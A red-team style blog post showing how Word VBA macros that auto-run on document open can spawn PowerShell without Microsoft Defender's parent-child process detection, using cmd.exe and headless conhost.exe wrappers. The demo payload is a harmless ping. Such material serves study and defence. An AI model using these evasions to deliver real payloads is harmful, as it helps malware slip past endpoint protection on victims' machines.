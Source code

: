 ```yaml
---
title: Introduction to Parent-Child Process Evasion 
date: "2021-10-22"
---
```


Evading Microsoft Defender when using macros to spawn powershell.exe<!-- end -->.

# Parent/Child Process Relationship

Security solutions often monitor process relationships to detect malicious behaviour. For this blog post we'll see how Microsoft Defender flags a MS Word document if you attempt to spawn `powershell.exe`, regardless of what the spawned PowerShell process does. We'll also explore how we can bypass this detection.

## Spawning PowerShell (The Detected Way)

Below we have an innocent looking VBA script that spawns PowerShell.exe via the `Shell` command and runs `ping google.com`.

    Sub AutoOpen()
    Test
    End Sub

    Sub Document_Open()
    Test
    End Sub

    Sub Test()
    Shell "powershell.exe -c ping google.com", vbNormalFocus
    End Sub

Unfortunately, Defender doesn't seem to agree that it's innocent. PowerShell has been abused to an extent where Microsoft Defender doesn't seem care what the command does.

![Triggered](./triggered.png)

If we go view 'Protection History' we can see its being treated as a Trojan.

![Trojan](./malicious.png)

## Spawning PowerShell (The Clean Way)

With an additional 10 characters to our command, Microsoft Defender won't complain anymore. We're going to modify our `Shell` command as shown below.

    # Before
    Shell "powershell.exe -c ping google.com", vbNormalFocus

    # After
    Shell "cmd.exe /c powershell.exe -c ping google.com", vbNormalFocus

![Bypass](./bypass-vid.gif)

Below we can see how the parent/child relationship was modified.

![child-processes-before](./child-processes-before.png)

![child-process-after](./child-processes.png)

## Avoiding Cmd.exe

Although `cmd.exe` is a better alternative than `powershell.exe`, it's still a highly monitored process by defenders. A better way which avoids `cmd.exe` is shown below.

    Shell "conhost.exe --headless powershell.exe -c ping google.com", vbNormalFocus

This way `cmd.exe` and `powershell.exe` are avoided as direct child processes.

![Conhost](./conhost-child.png)

## Why Does This Work?

It seems that Defender blacklists `powershell.exe` as a direct child process. In pseudocode it's probably programmed something like this:

`if WINWORD.exe spawns powershell.exe.exe then Trojan`

Clearly we don't fit the above description so we're good!

# Conclusion

In a real engagement you should probably avoid the `Shell` command altogether, but the point of this post is to demonstrate how small modifications in process relationships can result in a different outcome. 

